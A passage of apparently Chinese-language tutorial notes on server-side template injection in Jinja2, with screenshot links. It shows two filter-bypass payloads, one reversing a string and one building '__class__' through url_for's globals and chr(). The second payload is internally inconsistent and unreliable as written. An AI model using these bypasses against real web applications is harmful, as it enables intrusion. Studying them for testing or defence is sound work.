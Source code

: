 >
>    {%set a=“\_\_ssalc\_\_”|reverse%}{{a}}
>
>    ![image-20240408175047318](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240408175047318.png)
>
>    ![image-20240408175145773](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240408175145773.png)
>
> 5. 利用Python的char()：
>
>    {% set url=url_for.__globals\_\_[‘\_\_builtins\_\_’].chr%}{{“”[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
>
>    ![image-20240408175253295](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240408175253295.png)
